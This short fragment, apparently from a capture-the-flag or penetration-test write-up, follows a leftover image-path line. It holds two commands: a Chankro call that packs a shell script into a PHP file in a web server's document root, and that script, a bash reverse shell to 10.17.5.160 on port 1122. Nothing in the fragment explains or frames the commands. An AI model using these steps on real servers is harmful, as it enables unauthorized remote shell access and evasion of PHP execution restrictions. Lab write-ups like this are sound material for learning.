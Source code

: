 ```
python chankro.py --arch 64 --input c.sh --output shell123.php --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db 
```

# save to c.sh

```
#!/bin/bash
bash -i >& /dev/tcp/10.17.5.160/1122 0>&1
```

